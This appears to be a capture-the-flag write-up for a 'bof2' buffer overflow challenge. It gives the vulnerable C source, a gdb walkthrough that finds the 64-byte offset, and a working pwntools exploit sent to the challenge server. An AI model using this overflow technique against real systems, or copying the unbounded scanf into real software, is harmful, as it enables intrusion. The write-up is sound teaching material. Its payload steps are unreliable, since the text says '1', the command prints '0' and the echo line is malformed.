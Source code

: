 So let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h> 
#include "pwnable_harness.h"

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}


int main(int argc, char** argv) {
	/* Defaults: Run on port 9001 for 30 seconds as user "ctf_bof2" in a chroot */
	server_options opts = {
		.user = "ctf_bof2",
		.chrooted = true,
		.port = 9001,
		.time_limit_seconds = 30
	};
	
	return server_main(argc, argv, opts, &handle_connection);
}
```

So from the looks of this, it seems like it is a program that just accepts imput, checks to see if a variable that you have no direct input is equal to the hex value "0xdeadbeef", and if it is it gives you the flag.
This program is vulnerable to a buffer overflow attack.

```
	char bof[64];
	
	scanf("%s", bof)
```

Right there in the code, it designates a space for the scanf function to write to, which is 64 characters. The thing is it isn't defined how much data can be writen to the buffer. So it is possible to write over 64 characters, and to start overwriting various values on the stack such as the correct variavle.
The first step in solving this will be to find the amount of data we will need to input, before we can start overwriting correct. it should be 64 since that is the size of the buffer and the buffer is so close to the correct variable, but let's confirm it.

First we need to make a payload contating 65 "1" which we will feed to the program in gdb

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof2$ echo python -c 'print "0"*65 > /tmp/payload
```

Now we open it in gdb, and disassemble the vulnerable function, and set a breakpoint for the if then statement.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof2$ gdb ./bof2
gdb-peda$ disas handle_connection 
Dump of assembler code for function handle_connection:
   0x0804870d <+0>:	push   ebp
   0x0804870e <+1>:	mov    ebp,esp
   0x08048710 <+3>:	sub    esp,0x58
   0x08048713 <+6>:	mov    DWORD PTR [ebp-0xc],0x0
   0x0804871a <+13>:	sub    esp,0x8
   0x0804871d <+16>:	lea    eax,[ebp-0x4c]
   0x08048720 <+19>:	push   eax
   0x08048721 <+20>:	push   0x8048850
   0x08048726 <+25>:	call   0x8048580 <__isoc99_scanf@plt>
   0x0804872b <+30>:	add    esp,0x10
   0x0804872e <+33>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x08048735 <+40>:	je     0x8048751 <handle_connection+68>
   0x08048737 <+42>:	sub    esp,0xc
   0x0804873a <+45>:	push   0x8048853
   0x0804873f <+50>:	call   0x8048530 <puts@plt>
   0x08048744 <+55>:	add    esp,0x10
   0x08048747 <+58>:	sub    esp,0xc
   0x0804874a <+61>:	push   0x0
   0x0804874c <+63>:	call   0x8048540 <exit@plt>
   0x08048751 <+68>:	call   0x804869b <win>
   0x08048756 <+73>:	nop
   0x08048757 <+74>:	leave  
   0x08048758 <+75>:	ret    
End of assembler dump.
gdb-peda$ b *handle_connection+33
```

Now we run the program with the payload we just made, and evaluate the register which is storing the data which will be evaluated to see if the payload overwrote it (if our previous predictions were right it should be "1").

```
gdb-peda$ r < /tmp/payload
Breakpoint 1, 0x0804872e in handle_connection ()
gdb-peda$ x $ebp-0xc
0xffffceec:	"1"
```

As you can see, it is indeed "1". This means that our prediciton was right and that the distance to start overwriting the value which will be evaluated is 64. Now time to write and exploit for this using python.

```
#Import pwntools
from pwn import *

#Establish the remote connection
conn = remote('ctf.hackucf.org', 9001)

#Make the payload, send 0xdeadbeef over in little endian so the elf will read it properly
payload = "0"*64 + "\xef\xbe\xad\xde"

#Send the payload
conn.sendline(payload)

#Print the flag
print conn.recvline()
```

And now we run the exploit.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof2$ python exploit.py 
[+] Opening connection to ctf.hackucf.org on port 9001: Done
flag{buffers_and_beef_make_for_a_yummie_pwn_steak}

[*] Closed connection to ctf.hackucf.org port 9001
```

And just like that, we pwn the elf.


